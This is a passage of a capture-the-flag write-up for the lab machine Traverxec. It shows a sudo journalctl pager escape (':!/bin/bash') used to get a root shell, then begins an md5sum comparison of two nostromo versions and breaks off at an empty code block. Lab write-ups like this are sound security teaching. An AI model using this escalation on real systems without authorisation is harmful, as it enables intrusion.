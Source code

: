 ```
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
david@traverxec:~$
```

## Root
As we log in we can notice inside the user folder a ```bin/``` directory which is odd.  
If we inspect the directory, we can see the following script:  
```
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```
This means that user david can execute as root journalctl.  
according to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/) we can perform a privilege escalation via journalctl pager (less).
Please notice that less won't be triggered if the terminal size is wider than the output.  
So, what we can do is reduce the window size of the terminal, trigger the pager, type ```:!/bin/bash``` and get a shell as root:  
```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Mon 2022-03-28 09:08:21 EDT, end at Mon 2022-03-28 10:11:23 EDT. --
Mar 28 09:46:24 traverxec sudo[5328]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty= ruse
Mar 28 09:46:26 traverxec sudo[5328]: pam_unix(sudo:auth): conversation failed
Mar 28 09:46:26 traverxec sudo[5328]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Mar 28 09:46:26 traverxec sudo[5328]: www-data : command not allowed ; TTY=unknown ; PWD=/usr/bin ; USER=root ; COM
Mar 28 09:46:26 traverxec nologin[5381]: Attempted login by UNKNOWN on UNKNOWN
!/bin/bash
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
root@traverxec:/home/david/bin#
```

## Forensics  
Now, let's dig deeper into nostromo vulnerability.  
Let's download nostromo 1.9.6 and nostromo 1.9.7 and calculate md5sums to check file changes:  
```
[root@kali nostromo ]$ find . -type f -exec md5sum {} \; | sort           
02008a7c46ac776ccc81335e0e8583d7  ./nostromo-1.9.6/conf/mimes            
02008a7c46ac776ccc81335e0e8583d7  ./nostromo-1.9.7/conf/mimes            
04f118886433f64a2cb5be8910df1bd5  ./nostromo-1.9.7/src/libmy/ChangeLog     
052a8c32df7f35132c8cefdd0be2bb57  ./nostromo-1.9.7/conf/CVS/Entries     
05d01129809c103e79e11ca181ab5bf0  ./nostromo-1.9.6/src/libmy/flog.c          
05d01129809c103e79e11ca181ab5bf0  ./nostromo-1.9.7/src/libmy/flog.c    
07bb349c671f30f68b1c3065286179d6  ./nostromo-1.9.7/htdocs/CVS/Entries       
0c6b86474eea6679abbd62edee84e000  ./nostromo-1.9.6/src/tools/Makefile
0c6b86474eea6679abbd62edee84e000  ./nostromo-1.9.7/src/tools/Makefile     
1131e809fe81d5fdb48fe689df6ab953  ./nostromo-1.9.7/htdocs/cgi-bin/CVS/Repository
130ee1afe8b788a0c8bdbda131fe4986  ./nostromo-1.9.7/htdocs/CVS/Repository
18afaf6f74e46fd60ecccbfd83a02f81  ./nostromo-1.9.7/src/CVS/Entries    
[... SNIP ...]
```
Now, Let's look for unique hashes, so we can see the file changed from one version to the other:
```
```